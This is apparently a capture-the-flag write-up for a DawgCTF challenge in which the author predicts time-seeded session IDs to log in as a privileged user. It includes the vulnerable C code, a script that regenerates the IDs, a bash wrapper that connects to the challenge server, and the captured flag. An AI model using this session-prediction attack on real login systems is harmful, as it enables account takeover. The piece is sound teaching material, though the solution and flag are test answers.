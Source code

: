 # Well Timed Authentication

Upon connecting to the server, we are given a login page:

```
     __
(___()'`;
/,    /`
\\"--\\

Welcome! Please login!
(L)ogin normally or use (S)ession id? (L/S):
```

While reading the [source code](auth.c), I found out that there are 3 users.

```c
const char* users[3] = {"TrueGrit", "root", "guest"};
#define users_len (sizeof (users) / sizeof (const char *))
#define TRUEGRIT 0
#define ROOT 1
#define GUEST 2
long sessionID[users_len];
```
You aren't able to get the flag as guest, because you don't have sufficient permissions.
```
     __
(___()'`;
/,    /`
\\"--\\

Welcome! Please login!
(L)ogin normally or use (S)ession id? (L/S): L
login as: guest
guest@umbc$ cat flag.txt
Unknown command.
Available commands: ls, whoami, sid, dog, flag, time
guest@umbc$ flag
cat: flag.txt: Permission denied
guest@umbc$
```
We'll have to figure out how to login as root.

We have two different options to login with, session ID and password.

Looking at the password authentication function, it seems like we hit a dead end:

```c
FILE *fp = fopen("/dev/random", "r");
if(fp == NULL){
  return -1;
}
char* line = NULL;
size_t len = 64;
getline(&line, &len, fp);
if(line == NULL){
  return -1;
}
```

There's not a good chance that we are going to be able to predict the behavior of `/dev/random`, so let's move on.

In `sessionauth()`, it compares your input to the session IDs they have:

```c
long sessionauth(){
    char session[20];
    printf("Enter session ID: "); // Prompt session ID
    fgets(session, 20, stdin);
    long result = atol(session);
    int uid = -1;
    for(int i = 0; i < users_len; i++){
        if(sessionID[i] == result){
            uid = i;
        }
    }
    authwait();
    return uid;

}
```

It generates the session IDs using this function:

```c
void generatesessionids(){
    time_t curtime;
    struct tm * timeinfo;
    time(&curtime);
    srand(curtime);
    for(int i = 0; i < users_len; i++){
        sessionID[i] = (rand() ^ rand());
    }
}
```

Bingo! It uses the system time to generate a pseudorandom number, which can be predicted.

I copied and pasted the code into [my own script](hack.c), and printed the session IDs to the screen:

```c
int main(){
    setbuf(stdin, 0);
    printwelcomemessage();
    generatesessionids();
    for(int i = 0; i < users_len; i++) {
      printf("%s: %d\n", users[i], sessionID[i]);
    }
    return 0;

}
```

Then, I made my own [bash script](evil-bash-script) to print the session ids for me, and connect me to the server right after that:

```bash
#!/bin/bash
./hack
./auth # nc ctf.umbccd.io 5600
```

All we have to do now is run that script, and copy and paste the ID we want. We can log in as anyone we like now! I'm going to log in as TrueGrit:

```
$ ./evil-bash-script
           __
      (___()'`;
      /,    /`
      \\"--\\

Welcome! Please login!
Current time: 1588025798
TrueGrit: 63031782
root: 739356463
guest: 1863042855
           __
      (___()'`;
      /,    /`
      \\"--\\

Welcome! Please login!
(L)ogin normally or use (S)ession id? (L/S): S
Enter session ID: 63031782
Authenticating...
TrueGrit@umbc$ flag
DawgCTF{ps3ud0_r4nd0m_1s_n0t_tru3_r4nd0m}
```

Flag: `DawgCTF{ps3ud0_r4nd0m_1s_n0t_tru3_r4nd0m}`
